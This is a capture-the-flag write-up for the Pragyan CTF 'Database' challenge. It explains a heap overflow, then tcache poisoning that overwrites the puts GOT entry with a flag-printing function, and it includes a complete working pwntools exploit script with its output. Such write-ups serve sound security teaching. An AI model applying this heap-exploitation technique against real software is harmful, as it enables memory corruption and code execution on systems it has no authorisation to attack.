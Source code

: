 ```yaml
--- 
layout: post 
title: "[Pragyan CTF] Database" 
date: "2022-03-07" 
categories: [Pwn, Heap-overflow, Tcache]
author: eurus 
---
```



I didn’t solve this challenge in the CTF, but it was a really fun challenge, and my first heap expoitation challenge.
This is the output of the checksec over the ELF of this challenge.

```
Arch:     amd64-64-little
RELRO:    No RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      PIE enabled
```

We had an executable that will print this menu, and at will leak for us the address on where is placed the main function since PIE is enabled.

```
 ____        _        ____
|  _ \  __ _| |_ __ _| __ )  __ _ ___  ___ 
| | | |/ _` | __/ _` |  _ \ / _` / __|/ _ \
| |_| | (_| | || (_| | |_) | (_| \__ \  __/
|____/ \__,_|\__\__,_|____/ \__,_|___/\___|

Welcome to MY DataBase!
You can store as many as 0x10 strings!!!
This might help: 0x55af4cc01275
You have following options

+-----------------------------+
| 1. Show all data            |
| 2. Insert a element         |
| 3. Update a element         |
| 4. Remove a element         |
| 5. Exit                     |
+-----------------------------+
```

We can see that is a simple implementation of a database used to store some strings. There are no Use after free or Double free bug since the pointer of the allocated region was nulled after the free.
But in the ```Update a element``` section of the program we have a heap overflow bug. Here we can see the decompiled code for the ```update_item``` function

```c
fwrite("Please enter the index of element => ", 1, 0x25, stderr);
read(0, buf, 8);
index_element = atoi(buf);
if ( *( &data_base + 2 * index_element) ){

      fwrite("Please enter the length of string => ", 1, 0x25, stderr);
      read(0, nptr, 8);
      new_read_size = atoi(nptr);

      *(&data_base + 2 * index_element) = new_read_size;
      fwrite("Please enter the string => ", 1, 0x1B, stderr);
      byte_read = read(0, *( &data_base + 2 * index_element), new_read_size))

      ...
}
else{
      fwrite("Invalid index\n", 1, 0xE, stderr);
    }
```
With this bug we can overwrite the other chunk if we write more data than the size of the selected chunk.
In the version of the glibc that this elf use the tcache bins are used. The tcache bins will mantain a linked list of the freed chunks. The tcache is a data structure used from the glibc that is allocated for each thread, it behave similar to an arena, but is not shared between threads.
The tcache use singly linked, LIFO lists. The procedure used to unlink a chunk from the tcache will write the chunk’s fd (foreward pointer) into the head of the list. 
So the exploit will try to use this to overwrite the pointer to the win function over the pointer of the puts in the got.

```c
int secret()
{
  return system("/bin/cat ./flag");
}
```

First of all we need to create some helper function to interact with the executable. And read the pointer of the main function to calculate where the ELF is mapped in order to take the pointers of the win function and the puts in the got.

```python
def insert_item(leng, data):
    p.sendlineafter(b'choice => ', b'2')
    p.sendlineafter(b'of string => ', f'{leng}'.encode())
    p.sendafter(b'to save => ', data)

# heap overflow here
def update_item(index, leng, data):
    p.sendlineafter(b'choice => ', b'3')
    p.sendlineafter(b'of element => ', f'{index}'.encode())
    p.sendlineafter(b'of string => ', f'{leng}'.encode())
    p.sendafter(b'string => ', data)

def delete_item(index):
    p.sendlineafter(b'choice => ', b'4')
    p.sendlineafter(b'index of element => ', f'{index}'.encode())

def leave_int():
    p.sendlineafter(b'choice => ', b'5')
    p.interactive()

p.recvuntilS(b'This might help: ')
main_addr = p.recvlineS()

elf.address = int(main_addr, 16)-elf.sym.main
log.info(f'Main @ {main_addr}')
log.info(f'Base address od the ELF @ {hex(elf.address)}')

win_function_addr = elf.sym.secret
puts_got = elf.got.puts

log.info(f'Win func @ {hex(win_function_addr)}')
log.info(f'puts in got @ {hex(puts_got)}')
```

After this we can start to mess with the heap. First we allocate three chunk of size 0x10. And then we free the third and the second in order to put them in the tcache LIFO linked list.



```python
insert_item(0x10,'aaaa') #index 0
insert_item(0x10,'bbbb') #index 1
insert_item(0x10,'cccc') #index 2

delete_item(2)
delete_item(1)
```

Now we have in the tcache list this situation: HEAD-> elem1->elem2->NULL. Now we can overwrite the fd value of the elem1 by updating the elem0 and perform a heap overflow in this way.

```python
# Heap overflow on the first item, in order to replace 
# the tcache fd to puts GOT address
payload = p64(0)*3+p64(0x21)+p64(puts_got)
update_item(0,len(payload),payload)
```

Now allocating a chunk with size of 0x10 will lead to copy the puts got address (placed in the fd of the first chunk) in the head in the tcache and so by requestiing another chunk with size 0x10 will take us a chunk in the got that point to puts got pointer and so what we write inside this chunk will be written at the entry of puts in the got.

```python
insert_item(0x10, 'ffff')
# This item will be stored at puts GOT address
insert_item(0x10, p64(win_function_addr))
```

Now when the program will call puts, instead of executing the puts function will call the win function ```secret()```.
We can see that in the leave function is used a puts:

```c
int leave()
{
  return puts("Thanks a lot!\nGoodbye!");
}
```

So this is the final script

```python
#! /usr/bin/env python3
import pprint
from pwn import *

exe = './database'
elf = context.binary = ELF(exe)
    
def insert_item(leng, data):
    p.sendlineafter(b'choice => ', b'2')
    p.sendlineafter(b'of string => ', f'{leng}'.encode())
    p.sendafter(b'to save => ', data)

# heap overflow here
def update_item(index, leng, data):
    p.sendlineafter(b'choice => ', b'3')
    p.sendlineafter(b'of element => ', f'{index}'.encode())
    p.sendlineafter(b'of string => ', f'{leng}'.encode())
    p.sendafter(b'string => ', data)


def delete_item(index):
    p.sendlineafter(b'choice => ', b'4')
    p.sendlineafter(b'index of element => ', f'{index}'.encode())

def leave_int():
    p.sendlineafter(b'choice => ', b'5')
    p.interactive()

p = remote('binary.challs.pragyanctf.tech', 6004)
#p = elf.process()
#gdb.attach(p)

p.recvuntilS(b'This might help: ')
main_addr = p.recvlineS()

elf.address = int(main_addr, 16)-elf.sym.main
log.info(f'Main @ {main_addr}')
log.info(f'Base address od the ELF @ {hex(elf.address)}')

win_function_addr = elf.sym.secret
puts_got = elf.got.puts

log.info(f'Win func @ {hex(win_function_addr)}')
log.info(f'puts in got @ {hex(puts_got)}')

insert_item(0x10,'aaaa') #index 0
insert_item(0x10,'bbbb') #index 1
insert_item(0x10,'cccc') #index 2

delete_item(2)
delete_item(1)

# Heap overflow on the first item, in order to replace 
# the tcache next pointer to puts GOT address
payload = p64(0)*3+p64(0x21)+p64(puts_got)
update_item(0,len(payload),payload)

insert_item(0x10, 'ffff')
# This item will be stored at puts GOT address
insert_item(0x10, p64(win_function_addr))

# will print the flag since call puts
leave_int()
```
and this is the output of the exploit.
```
[*] '/home/eurus/Downloads/database_/database'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to binary.challs.pragyanctf.tech on port 6004: Done
[*] Main @ 0x559e08b6e275
[*] Base address od the ELF @ 0x559e08b6d000
[*] Win func @ 0x559e08b6e262
[*] puts in got @ 0x559e08d6ecd0
/home/eurus/Downloads/database_/./solver.py:16: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.sendafter(b'to save => ', data)
[*] Switching to interactive mode
p_ctf{Ch4Ng3_1T_t0_M4x1Mum}
[*] Got EOF while reading in interactive
$ 
[*] Interrupted
[*] Closed connection to binary.challs.pragyanctf.tech port 6004
```
